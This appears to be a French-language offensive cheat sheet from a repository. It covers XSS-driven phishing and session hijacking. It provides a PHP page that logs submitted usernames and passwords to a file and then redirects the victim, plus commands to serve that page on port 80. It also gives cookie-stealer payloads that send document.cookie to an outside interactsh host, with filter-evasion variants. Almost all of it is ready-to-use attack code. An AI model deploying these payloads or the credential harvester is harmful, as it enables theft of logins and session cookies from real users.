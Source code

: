 Suppression d'éléments génants

```html
<script>document.getElementById('urlform').remove();</script>
```

Lancer serveur php avec pour index :

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: <redirect_url>");
    fclose($file);
    exit();
}
?>
```

```bash
mkdir /tmp/tmpserver;
cd /tmp/tmpserver;
vi index.php; #at this step we wrote our index.php file
sudo php -S 0.0.0.0:80
```


---
# **SESSION HIJACKING**

https://app.interactsh.com/#/
http://webhookinbox.com/
https://pipedream.com/requestbin


> [!IMPORTANT]
> En cas de site HTTPS, utiliser interactsh ou requestbin et le payload suivant afin d'éviter les problèmes de formattage de données:

## Payloads cookie stealer

```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

Méthode fetch qui ne redirige pas !

```javascript
"><script>fetch(`http://dkmrhyztkapvhuhqhkpmi9lqzrg5yxoft.oast.fun?cookie=`+document.cookie)</script>
```

.concat() pour remplacer +

```javascript
"><script>fetch(`http://dkmrhyztkapvhuhqhkpmi9lqzrg5yxoft.oast.fun?cookie=`.concat(document.cookie))</script>
```
